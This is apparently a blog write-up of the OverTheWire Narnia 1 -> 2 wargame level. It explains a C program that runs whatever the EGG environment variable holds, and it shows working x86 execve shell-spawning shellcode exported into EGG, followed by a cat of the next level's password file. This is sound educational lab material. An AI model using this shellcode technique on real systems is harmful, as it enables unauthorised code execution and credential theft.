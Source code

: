```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 1 -> 2"
subtitle:   "Write-Up"
date:       2017-02-02 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
category: Write-Ups
---
```


<h1>Introduction</h1>
<p>Another month, another challenge, next part of OverTheWire's Narnia wargames. Unfortunately lack of time, made it impossible for me to publish anything sooner. Sorry for that!</p>

<h1>Challenge</h1>

<p>Firstly let's take a look at the code of the program. </p>

{% highlight c %}
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}

{% endhighlight %}

<p>The first thing that I see is that this program will check, whether or not the value of EGG variable is empty, if yes, it will print the message. But if not, it will try to execute it. </p>

<p>But what is enviromental variable? </p>

<p>Every time shell session is started, process is gathering information that should be available to the shell process and all child processes, putting them in special area called <b>enviroment</b>. </p>

<p><b>Enviromental variables</b> provide a way to influence the behaviour of software on the system. For example, the "LANG" environment variable determines the language in which software programs communicate with the user. They are represented as an key-value pairs. </p>

<pre>
KEY=VALUE
KEY=VALUE1:VALUE2
KEY="VALUE WITH SPACES"
</pre>

<p>Now when we understand the topic, let's try to set EGG variable as some random text possibly causing the program to crash. </p>

{% highlight bash %}
narnia1@melinda:/narnia$ export "EGG"="completelyrandomtext"
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault
{% endhighlight %}

<p>Yes! Now let's try and find some x86 shellcode that will be executed by the program. What I found working, was this <a href="http://shell-storm.org/shellcode/files/shellcode-811.php">shellcode</a>, which was actually second one I've tried - the first one didn't want to cooperate ;)</p>

{% highlight bash %}
narnia1@melinda:/narnia$ export "EGG"=$'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
{% endhighlight %}

<p>We have the password to the next level! </p>

<h1>Conclusion</h1>

<p>It was another great challenge from <a href="www.overthewire.org">OverTheWire</a>. I'm looking forward to the next one, maybe something a little bit harder? We'll see!</p>

<p><b>UPDATE</b></p>
<p>To gain better insight into who visits my website, I decided to add Piwik Analytics as a way to both give me essential information, and to repsect your privacy. You can read more at the <a href="/privacy/">Privacy Policy</a>, but if you still have any questions, contact me and I'll try my best to answer. </p>

<p>~ Stay safe!</p>

